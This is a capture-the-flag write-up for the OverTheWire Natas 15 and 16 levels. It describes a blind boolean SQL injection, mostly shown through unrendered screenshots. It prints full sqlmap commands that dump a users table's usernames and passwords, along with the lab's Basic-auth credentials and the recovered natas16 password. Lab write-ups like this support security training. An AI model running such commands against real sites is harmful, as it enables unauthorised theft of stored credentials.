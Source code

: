 ﻿**Natas (OTW)**

**Natas 15 Writeup:**

Natas level 14 —>15

![](Aspose.Words.4bcf1968-e663-4600-87e5-22358c6d5cd3.001.jpeg)

![](Aspose.Words.4bcf1968-e663-4600-87e5-22358c6d5cd3.002.jpeg)

![](Aspose.Words.4bcf1968-e663-4600-87e5-22358c6d5cd3.003.jpeg)

Entering the username as natas 16 gives us an output of “This user exists.” therefore we can use this chunk of information in extracting data from the sql database.

![](Aspose.Words.4bcf1968-e663-4600-87e5-22358c6d5cd3.004.jpeg)

Using an application named sqlmap we will be able to retrieve the data from the database thus allowing us to crack the passcode for the next challenge.

![](Aspose.Words.4bcf1968-e663-4600-87e5-22358c6d5cd3.005.jpeg)

Here we have the 4 entries of the username and passwords extracted from the database using the

**Payload :** python sqlmap.py -u "http://natas15.natas.labs.overthewire.org/" --technique=B --string="This user exists." --auth-type=Basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J --data "username=natas16" -D natas15 -T users -C username,password --dump --level=5 risk=3

**Natas16 :** WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

python sqlmap.py -u "http://natas16.natas.labs.overthewire.org/" --technique=B --string="This user exists." --auth-type=Basic --auth-cred=natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh --data "username=natas17" -D natas16 -T users -C username,password --dump --level=5 risk=3
